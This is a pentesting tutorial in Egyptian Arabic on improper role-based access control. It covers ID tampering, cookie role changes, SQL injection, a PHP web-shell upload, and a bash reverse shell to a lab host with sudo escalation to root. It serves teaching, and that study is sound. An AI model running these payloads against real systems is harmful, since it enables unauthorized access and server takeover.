 # **1. إيه هو Improper Role-Based Access Control (RBAC)؟**

## **الشرح العميق:**
"Role-Based Access Control" (RBAC) هو نظام تحكم في الوصول بيعتمد على "الأدوار" (Roles) اللي بيتم تعيينها للمستخدمين في تطبيق أو نظام. يعني كل مستخدم عنده دور معين (زي User، Editor، Admin)، والدور ده بيحدد إيه اللي يقدر يعمله وإيه اللي مش مسموح بيه. لما نقول "Improper RBAC"، يعني إن النظام ده معمول بشكل غلط أو ضعيف، فالمستخدم يقدر يعمل حاجات خارج دوره، زي إن مستخدم عادي يشوف بيانات الأدمن أو يعدل حاجة المفروض للأدمن بس. ده بيحصل بسبب:
- سوء تصميم الصلاحيات.
- عدم التحقق من دور المستخدم قبل تنفيذ أمر.
- إعطاء صلاحيات زيادة عن اللزوم.

## **الأدوات والأوامر العملية:**
### 1. **فحص الوصول في الويب:**
   - لو موقع فيه حساب User عادي:
     - جرب رابط زي: `http://target.com/api/users/123`.
     - عدل الـ ID لـ `124` أو `1` -> لو فتح حساب حد تاني، يبقى RBAC ضعيف.

### 2. **اختبار الأدوار:**
   - لو عندك حساب User، جرب صفحة Admin:
     - `http://target.com/admin/dashboard` -> لو فتحت، يعني مافيش تحقق من الدور.

### 3. **فحص الـ API:**
   - استخدم Burp Suite:
     - Intercept طلب زي `GET /api/settings` -> لو رجع بيانات لمستخدم عادي، يبقى Improper RBAC.

## **خلاصة بالعامية المصرية:**
"يعني زي ما تكون حاطط ناس في أوض مختلفة في البيت، بس سايب الأبواب مفتوحة، فالكل يقدر يخش أي حتة! Improper RBAC يعني كل واحد يعمل اللي عايزه من غير ما حد يقوله لأ."

---

# **2. ليه المشكلة دي خطيرة؟**

## **الشرح العميق:**
لما RBAC يكون ضعيف أو مضبوط غلط، بيفتح الباب للمهاجم يعمل حاجات خطيرة:
- **تصعيد أفقي (Horizontal):** مستخدم عادي يشوف أو يعدل بيانات مستخدم تاني.
- **تصعيد عمودي (Vertical):** مستخدم عادي يوصل لصلاحيات Admin أو يتحكم في النظام.
- **سرقة بيانات:** ياخد معلومات المفروض تكون لأدوار أعلى بس.
- **تخريب:** يغير إعدادات أو يمسح حاجات مهمة.

في الـ Pentesting، الثغرة دي ذهب لأنها بتخليك تتخطى حدود دورك وتصير الكبير بدون ما تحتاج مجهود كبير.

## **الأدوات والأوامر العملية:**
### 1. **استغلال الـ API:**
   - لو لقيت طلب زي `POST /api/update_user` بتاعك كـ User:
     - غير الـ Payload في Burp:
       - `"user_id": 123` لـ `"user_id": 1` -> لو نجح، يبقى RBAC مكسور.

### 2. **تجاوز التحقق:**
   - لو موقع بيستخدم Cookie زي `role=user`:
     - غيرها في المتصفح لـ `role=admin` -> لو فتحت صفحة Admin، يبقى ضعيف.

### 3. **SQL Injection مع RBAC:**
   - `http://target.com/profile?id=123; SELECT * FROM users WHERE role='admin' --` -> لو جاب بيانات Admin، يبقى مافيش حماية.

## **خلاصة بالعامية المصرية:**
"المشكلة خطيرة لأنها زي ما تكون حاطط حارس بس نايم، أي حد يقدر يعدي وياخد اللي عايزه! المهاجم يلاقي الثغرة دي، يبقى الباشا بتاع الموقع على طول."

---

# **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم الضعف في RBAC عشان تتجاوز حدود دورك وتاخد وصول أعلى أو تتحكم في حاجات ممنوعة.
- **مثال واقعي:** لو مستخدم عادي قدر يعدل بيانات الأدمن بتغيير الـ ID في الرابط، يبقى RBAC مضروب.

## **خلاصة بالعامية المصرية:**
"لما تلاقي RBAC ضعيف، زي ما تكون لقيت خرم في الحيطة، تدخل منه وتبقى الكبير بتاع اللعبة من غير ما حد يحس!"

---

# **خطوات عملية للاستغلال في Pentesting**

## **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 80: Apache 2.4.29.

## **الخطوة 2: إنشاء حساب User**
- لو الموقع بيسمح، سجل حساب عادي:
  - Username: `testuser` - Password: `test123`.
- سجل دخول وشوف حدودك.

## **الخطوة 3: اختبار RBAC**
- جرب تغير الـ ID:
  - `http://192.168.1.10/profile?id=100` (حسابك).
  - `http://192.168.1.10/profile?id=1` -> لو فتح حساب الأدمن، يبقى RBAC ضعيف.
- جرب صفحات Admin:
  - `http://192.168.1.10/admin` -> لو فتحت بدون تحقق، يبقى مكشوف.

## **الخطوة 4: استغلال أفقي**
- لو لقيت API:
  - Intercept بـ Burp: `GET /api/users/100`.
  - غيرها لـ `GET /api/users/1` -> لو جاب بيانات الأدمن، سجلها.

## **الخطوة 5: استغلال عمودي**
- لو لقيت Cookie زي `role=user`:
  - غيرها في المتصفح لـ `role=admin`.
  - افتح: `http://192.168.1.10/admin/settings` -> لو نجحت:
    - ابحث عن Upload -> ارفع `shell.php`: `<?php system($_GET['cmd']); ?>`.
    - `http://192.168.1.10/admin/shell.php?cmd=id` -> `www-data`.

## **الخطوة 6: تصعيد الصلاحيات**
- من الـ Shell:
  - `http://192.168.1.10/admin/shell.php?cmd=/bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`.
  - `nc -lvnp 4444` -> Shell.
  - `id` -> `www-data` -> `sudo -l` -> لو لقيت `sudo /bin/bash`، نفذه -> `root`.

## **الخطوة 7: توثيق**
- سجل كل اللي وصلتله (زي بيانات الأدمن أو Shell).
- قدم تقرير يوضح إزاي RBAC الضعيف فتح الباب للتحكم.

## **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت بيت الأدوار فيه مفتوحة، خشيت من أوضة صغيرة، لعبته في الكبيرة، وطلعت الكبير بتاع الحتة! RBAC لما يكون ضعيف، يبقى طريقك للفوز بسهولة."

---

# **الخلاصة النهائية:**
Improper Role-Based Access Control هي ثغرة كبيرة لأنها بتخلّي المستخدم يتجاوز دوره ويوصل لأماكن أو صلاحيات المفروض ممنوعة. في الـ Pentesting، دور على الضعف ده في الروابط، الـ API، أو الكوكيز، استغله عشان تاخد بيانات أو Shell، ووري العميل إن نظامه زي لعبة مفتوحة للكل! بالطريقة دي، تبقى البطل بتاع الساحة بكل سهولة!